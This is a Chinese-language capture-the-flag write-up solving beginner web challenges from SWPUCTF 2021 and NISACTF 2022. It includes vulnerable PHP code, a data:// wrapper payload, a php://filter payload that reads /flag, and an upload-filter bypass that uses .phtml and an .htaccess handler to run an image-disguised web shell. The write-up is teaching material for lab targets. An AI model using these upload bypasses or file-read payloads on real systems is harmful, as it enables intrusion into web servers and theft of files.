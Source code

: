## [SWPUCTF 2021 新生赛]PseudoProtocols
- 接上一题，这题要用到另一种伪协议 `data://`。
```php
<?php  
ini_set("max_execution_time", "180");  
show_source(__FILE__);  
include('flag.php');  
$a= $_GET["a"];  
if(isset($a)&&(file_get_contents($a,'r')) === 'I want flag'){  
    echo "success\n";  
    echo $flag;  
}  
?>
```
Payload：
```TEXT
/?a=data://text/plain;base64,SSB3YW50IGZsYWc=
```

## [SWPUCTF 2021 新生赛]easyupload2.0
- 题目对文件头和后缀进行检查，对所有后缀含有 `.php` 的全部 ban 掉了。    
- 所以，我们可以将后缀改为 `.phtml` 即可绕过限制。

## [SWPUCTF 2021 新生赛]easyupload3.0
- 这题对文件内容没有限制，但不能上传 php 文件。    
- 同时，这题可以上传 `.htaccess` 文件，那么我们就可以将“马”与该文件配合，让服务器将“马”（图片）解析为 `php` 文件即可完成注入。
```TEXT
// .htaccess
<FilesMatch "1.png">
SetHandler application/x-httpd-php
</FilesMatch>
```
- 之后，再将“马”的文件名改成 `1.png` 上传即可。


## [NISACTF 2022]easyssrf
- 首先，页面有一个可以执行 curl 的输入框，尝试用该功能看 `flag.php`。
- 出现提示可以去看 `/fl4g` 文件，看完之后提示可以看 `ha1x1ux1u.php` 页面。
而读取页面有以下代码：
```php
<?php

highlight_file(__FILE__);
error_reporting(0);

// stristr()搜索第一次出现的字符串，并返回该字符串后面的字符
$file = $_GET["file"];
if (stristr($file, "file")){
	die("你败了.");
}

//flag in /flag
echo file_get_contents($file);
?>
```
Payload：
```
/ha1x1ux1u.php?file=php://filter/resource=/flag
```

